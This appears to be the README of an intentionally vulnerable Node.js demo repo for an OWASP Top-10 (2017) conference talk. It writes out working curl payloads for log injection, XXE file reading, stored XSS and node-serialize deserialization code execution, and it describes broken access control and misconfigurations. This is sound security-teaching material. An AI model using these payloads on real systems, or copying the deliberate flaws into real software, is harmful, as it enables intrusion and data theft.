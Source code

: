 # OWASP Top-10 (2017) - Quickstart your security awareness

This repo contains the code examples shared in my [DevConf.us 2020 talk](https://devconfus2020.sched.com/event/eb6835469f571956a331b8382b8ca0a9).

Recordings:
- [Pre-recorded talk](https://www.youtube.com/watch?v=Unf-U_hPpH4)
- [DevConf.US recording](https://www.youtube.com/watch?v=6Z5hlgZQQt0)

Slides:
[SlideShare](https://www.slideshare.net/AllonMureinik/devconfus-2020-owasp-top-10-allon-mureinik)

## Warning

These demos contain intentionally vulnerable code.

Do not run any of them on a machine which can be accessed by external users.

## Prerequisites
1. [Git](https://git-scm.com/) - For cloning the repo
2. [npm](https://www.npmjs.com/get-npm)
3. [curl](https://curl.haxx.se/) - Not required for running the demo, but some instructions use it

## Installation

Clone the repository:
```
git clone https://github.com/mureinik/owasp-top10-demo.git
```

Install the dependencies:
```
npm install
```

## Demos

### A1:2017 - Injection

Run the Log Injection demo:
```
node logi.js
```

Send a payload of the form `username=XYZ logged in.\nABC&password=123`:

```
curl -d $'username=allon logged in with the password: fakepassword.\nmureinik&password=123' http://localhost:3000/logi
```

You'll see two log in messages in the application's console.

### A2:2017 - Broken Authentication

Run the login demo:
```
node logi.js
```

Open your browser and navigate to http://localhost:3000/logi.html. As you can easily see, any combination of username
and password will be accepted by the system. A proper system should have real user management implemented.

### A3:2017 Sensitive data exposure

Run the login demo:
```
node logi.js
```

Open your browser and navigate to http://localhost:3000/logi.html. You can use any combination of username and password
to log in, and the password will be presented in plain text in the application's console.

### A4:2017 XML External Entities (XXE)

Run the XXE demo:
```
node xxe.js
```

Send a payload with the following form:
```
curl -d '<!DOCTYPE foo [<!ENTITY xxe SYSTEM "/full/path/to/owasp-top10-demo/secret.txt">]><name>&xxe;</name>' http://localhost:3000/xxe
```

And you should get back the **contents** of the [secret.txt](secret.txt) file, i.e., `THIS IS A SECRET!!!`.

### A5:2017 Broken Access Control

Run the session demo:
```
node session.js
```

If you use your browser to navigate to http://localhost:3000/data you'll get an error stating `not logged in`, which is 
expected.

You can navigate to http://localhost:3000/session.html and use the credentials `user1`/`password1` to log in, after
which you'll be redirected to http://localhost:3000/data?username=user1 and we that user's data. Similarly, you can use
the credentials `user2`/`password2`, and will see a different set of data. However, if you log in as `user1`, you could
manually navigate to http://localhost:3000/data?username=user2, and will see that user's data.

In other words, this demo implements **authentication**, but does not implement **authorization**.

### A6:2017 Security Misconfiguration

There are several security misconfigurations in these demos. A few obvious ones include:
- All the demos serve HTTP and not HTTPS
- [xxe.js](xxe.js) sets `noent: true` when creating the libxmljs parser, thus making the demo vulnerable to XXE
- [session.js](session.js) uses Express Session, but uses the default configuration (e.g., it doesn't set the `secure` or `maxAge` properties)

### A7:2017 Cross-Site Scripting (XSS)

Run the XSS demo:
```
node xss.js
```

If you use your browser to navigate to http://localhost:3000/xss, you'll see a comments form where you could add your
opinion of DevConf.us and view previous comments

Send a payload of the following form:
```
curl -X POST -d 'comment=<script>window.location.replace("https://github.com/mureinik/owasp-top10-demo")</script>' http://localhost:3000/xss
```

The next time you navigate to http://localhost:3000/xss, you'll be redirected to this README page.

### A8:2017 Insecure Deserialization

Run the keys demo:
```
node keys.js
```

Send a payload containing a function definition followed by a `()`:
```
curl -X POST -H "Content-Type: text/plain" -d '{"key": "_$$ND_FUNC$$_function (){ console.log(\"unserialized!\"); }()"}' http://localhost:3000/keys
```

You'll see the text "userialized!" printed out in the application's console, proving that arbitrary code could be
executed. Of course, you could use more malicious code than `console.log`.

### A9:2017 Using Components with Known Vulnerabilities

Run an audit:
```
npm audit
```

You will see the vulnerable packages this project depends on.

### A10:2017 Insufficient Logging & Monitoring

Run the session demo:
```
node session.js
```

Use your browser to navigate to http://localhost:3000/session.html. 

If you use the wrong credentials (e.g., `wronguser`/`wrongpassword`) you'll get an error message, but nothing will be
logged.
In fact, this "application" doesn't even have any real logs. 
# OWASP-Sample
